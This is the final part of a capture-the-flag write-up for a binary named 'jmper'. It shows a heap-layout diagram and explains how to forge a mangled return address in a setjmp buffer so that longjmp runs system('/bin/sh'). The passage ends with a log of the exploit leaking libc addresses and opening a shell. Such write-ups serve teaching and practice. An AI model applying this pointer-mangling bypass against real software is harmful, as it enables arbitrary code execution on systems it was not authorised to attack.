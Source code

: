           --------------------------    |
                                        |
    ...                                 |
                                        |
                                        |
    0x370: name4:                       |
          --------------------------    |
          |                        |    |
          |       name_buf         |    |
          |                        |    |
          --------------------------    |
                                        |
    0x3a0: stud5:                       |
          --------------------------    |
          |                        |    |
          |  id                    |    |
          |  memo_buf[0x20]        |    |
          |  name  ----------------|----|
          |                        |
          --------------------------


Now we just calculate the right RIP value be xoring `system@glibc` with the magic_num and rotating it to the left.
Finally we write the resulting quad word to the stored RIP position.
All thats left to do is adding students until the `longjmp` is triggered and `system(/bin/sh)` is called.


Here is the final exploit in action:

    [+] Starting local process './jmper': Done
    [*] Created stud 0
    [*] Created stud 1
    [*] Created stud 2
    [*] Created stud 3
    [*] Created stud 4
    [*] Found jumpbuf offset: 7110
    [*] Get secret xor word
    [*] Found stored rip: e79196934e07e982
    [*] Found secret xor: f4c173c8cb09ab32
    [*] Overwrite stored rbx with /bin/sh'
    [*] Overwrite stored rip with system@libc
    [*] Found getchar @ 7f51413905d0
    [*] Found libc_base @ 7f5141321000
    [*] Found system @ 7f51413604d0
    [*] New rip: 1933147f5fc5e982
    [*] Switching to interactive mode
    